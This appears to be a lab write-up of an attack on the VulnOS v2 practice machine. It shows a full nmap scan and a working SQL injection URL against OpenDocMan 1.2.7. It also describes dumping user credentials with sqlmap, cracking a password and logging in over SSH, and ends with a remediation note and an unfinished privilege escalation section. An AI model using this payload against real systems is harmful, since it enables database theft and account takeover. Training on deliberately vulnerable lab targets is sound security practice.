







# Enumeration:
Started with an nmap scan to enumerate the box:
```bash
# Nmap 7.92 scan initiated Wed Jun  1 22:36:09 2022 as: nmap -sS -sV -A -p- -oN nmap.txt 192.168.3.3
Nmap scan report for 192.168.3.3
Host is up (0.00043s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 f5:4d:c8:e7:8b:c1:b2:11:95:24:fd:0e:4c:3c:3b:3b (DSA)
|   2048 ff:19:33:7a:c1:ee:b5:d0:dc:66:51:da:f0:6e:fc:48 (RSA)
|   256 ae:d7:6f:cc:ed:4a:82:8b:e8:66:a5:11:7a:11:5f:86 (ECDSA)
|_  256 71:bc:6b:7b:56:02:a4:8e:ce:1c:8e:a6:1e:3a:37:94 (ED25519)
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: VulnOSv2
|_http-server-header: Apache/2.4.7 (Ubuntu)
6667/tcp open  irc     ngircd
MAC Address: 08:00:27:0F:71:E9 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: irc.example.net; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.43 ms 192.168.3.3

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun  1 22:36:30 2022 -- 1 IP address (1 host up) scanned in 21.17 seconds
```
</br>

**Initial Shell Vulnerability Exploited:** </br>
Was redirected to /jabc by the main page: </br>
 </br>
I found this in the ‘Documentation’ tab source code: </br>
 </br>
Which eventually lead me into this website: </br>
 </br>
It was powered by OpenDocMan v1.2.7 I searched it online, and saw that it has multiple vulnerabilities [Exploit-DB](https://www.exploit-db.com/exploits/32075) </br>
**SQL Injection in OpenDocMan:** </br>
 </br>
**Example of a SQL Injection payload:** <br>
Encoded: ```http://[host]/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,version%28%29,3,4,5,6,7,8,9``` </br>
Decoded: ```http://192.168.3.3/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user UNION
SELECT 1,version(),3,4,5,6,7,8,9``` </br>
I replaced the ‘version’, with ‘database’- and got the database name: </br>
 </br>
The ssh port was open, so I tried to get the users credentials from the database, and then connect via SSH. </br>
I used sqlmap to dump all of the database: </br> </br>
**Get the Tables:** </br>
 </br>
 </br>
**I dumped odm_user:** </br>
 </br>
 </br>
I cracked the password online:
 </br>
And connected to the user via SSH. </br>
**Vulnerability Explanation:** : A SQL injection attack consists of insertion or “injection” of a SQL query
via the input data from the client to the application. </br>
**Vulnerability Fix:**  Most instances of SQL injection can be prevented by using parameterized queries
(also known as prepared statements) instead of string concatenation within the query. </br>
**Initial Shell Screenshot:** </br>
[initial_shell_poc](images/vulnos/initial_shell_poc) </br>
# Privilege Escalation:
just a test to see if i can write in here. </br>

